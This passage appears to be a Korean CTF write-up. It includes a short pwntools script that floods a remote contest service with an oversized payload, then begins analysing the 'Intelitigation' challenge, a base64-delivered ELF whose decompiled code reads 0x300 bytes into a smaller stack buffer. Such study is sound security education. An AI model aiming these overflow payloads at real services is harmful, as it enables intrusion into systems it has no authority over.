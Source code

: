#### 3-1. Exploit Code

```python
from pwn import *

context.log_level = 'debug'

p = remote('hto2024-nlb-fa01ec5dc40a5322.elb.ap-northeast-2.amazonaws.com', 5000)

p.recvline()

login_payload = b'USER ANONYMOUS'
p.sendline(login_payload)
p.recvline()

payload = b'A' * 0x4001
p.sendline(payload)

p.interactive()
```

## Intelitigation - [pwn]

- 💎 **pts : 807pts**

### 1. Abstract

- *base64 decoding*
- *AEG*
- *Stack Based Buffer Overflow*
- *ROP*

### 2. Analysis

이 문제는 서버에 접속하면 base64로 인코딩 된 데이터를 출력한다. 해당 데이터를 디코딩하면 ELF 형식의 실행파일을 얻을 수 있다.

```
f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAABEAAAAAAABAAAAAAAAAALAxAAAAAAAAAAAAAEAAOAAN
AEAAHQAcAAYAAAAEAAAAQAAAAAAAAABAAAAAAAAAAEAAAAAAAAAA2AIAAAAAAADYAgAAAAAAAAgA
AAAAAAAAAwAAAAQAAAAYAwAAAAAAABgDAAAAAAAAGAMAAAAAAAAcAAAAAAAAABwAAAAAAAAAAQAA
...
```

주요 함수들만 분석해보면 다음과 같다.

#### 2.1 sub_1324()

- 입력값을 받아 buf에 저장
- buf값을 출력
- `read()` 에서 buf 배열 크기 보다 큰 값을 입력할 수 있어 BOF 발생

```c
unsigned __int64 sub_1324()
{
  __int64 buf[2]; // [rsp+0h] [rbp-210h] BYREF
  char v2[496]; // [rsp+10h] [rbp-200h] BYREF
  unsigned __int64 v3; // [rsp+208h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("input> ");
  buf[0] = 0LL;
  buf[1] = 0LL;
  memset(v2, 0, sizeof(v2));
  read(0, buf, 0x300uLL);
  printf("Your input> ");
  printf("%s", (const char *)buf);
  return v3 - __readfsqword(0x28u);
```